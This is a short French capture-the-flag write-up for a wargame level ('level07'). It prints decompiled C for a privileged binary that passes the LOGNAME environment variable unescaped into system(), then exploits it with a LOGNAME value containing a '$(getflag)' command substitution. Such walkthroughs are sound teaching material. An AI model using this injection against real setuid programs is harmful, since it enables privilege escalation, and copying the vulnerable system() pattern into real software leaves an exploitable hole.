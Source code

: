 # Level07

[ENGLISH version](README_EN.md)

## Comment récuperer le flag

En décompilant level07, voici son code source:

```
void main(void)
{
    undefined4 uVar1;
    undefined4 uStack28;
    undefined4 uStack24;
    undefined4 uStack20;
    
    uStack24 = getegid();
    uStack20 = geteuid();
    setresgid(uStack24, uStack24, uStack24);
    setresuid(uStack20, uStack20, uStack20);
    uStack28 = 0;
    uVar1 = getenv("LOGNAME");
    asprintf(&uStack28, "/bin/echo %s ", uVar1);
    system(uStack28);
    return;
}
```

On peut voir que le programme récupère le contenu de la variable d'environnement LOGNAME, puis l'affiche.

On ne peut pas ici utiliser de lien symbolique car echo est appelé directement avec son path absolu.

Il suffit alors juste d'utiliser un sous shell

```
export LOGNAME='$(getflag)'
./level07
```

## Le flag

Le flag lu est celui utilisable pour se connecter a level06